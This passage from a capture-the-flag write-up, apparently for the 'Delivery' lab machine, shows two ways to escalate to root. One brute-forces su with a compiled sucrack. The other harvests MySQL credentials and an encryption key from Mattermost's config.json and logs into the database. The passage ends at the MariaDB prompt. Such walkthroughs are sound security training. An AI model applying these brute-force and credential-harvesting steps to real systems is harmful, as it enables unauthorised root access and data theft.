 So we need to create an archive, upload the `sucrack` folder and compile it directly into the target machine.  
Once `sucrack` is ready, we can use sucrack against local accounts.  
```bash
maildeliverer@Delivery:/dev/shm/.work/sucrack/src$ ./sucrack passwords.txt                                            
166/1177                                                   
password is: PleaseSubscribe!21  
```
`sucrack` doesn't tell us for wich account password cracking was successful, so hoping the best of luck let's try to su as root:  
```bash
maildeliverer@Delivery:/dev/shm/.work/sucrack/src$ su -    
Password:                                                  
root@Delivery:~#   
```

### Method 2 - MySQL Hash Dump
Once we log in, as always we can llok around for possible configuration files that disclose credentials.  
We can start by looking into mattermost:  
```bash
maildeliverer@Delivery:~$ find / -name mattermost 2>/dev/null
/opt/mattermost
/opt/mattermost/bin/mattermost
/var/lib/mysql/mattermost
```
Now we can look int `/opt/mattermost` and see what we can find.  
as we change directory we can find a `config/` directory containing a `config.json` file which look very promising.  
Looking into the file, we can see the following credentials for mysql database:  
```json
"SqlSettings": {
        "DriverName": "mysql",
        "DataSource": "mmuser:Crack_The_MM_Admin_PW@tcp(127.0.0.1:3306)/mattermost?charset=utf8mb4,utf8\u0026readTimeout=30s\u0026writeTimeout=30s",
        "DataSourceReplicas": [],
        "DataSourceSearchReplicas": [],
        "MaxIdleConns": 20,
        "ConnMaxLifetimeMilliseconds": 3600000,
        "MaxOpenConns": 300,
        "Trace": false,
        "AtRestEncryptKey": "n5uax3d4f919obtsp1pw1k5xetq1enez",
        "QueryTimeout": 30,
        "DisableDatabaseSearch": false
	}
```
Now we can login into mysql with `mmuser:Crack_The_MM_Admin_PW` 
```bash
maildeliverer@Delivery:/opt/mattermost/config:~$ mysql -u mmuser -p -D mattermost                                                
Enter password:                                                                                                       
Reading table information for completion of table and column names                                                    
You can turn off this feature to get a quicker startup with -A                                                        
                                                                                                                      
Welcome to the MariaDB monitor.  Commands end with ; or \g.                                                           
Your MariaDB connection id is 105                                                                                     
Server version: 10.3.27-MariaDB-0+deb10u1 Debian 10                                                                   
                                                                                                                      
```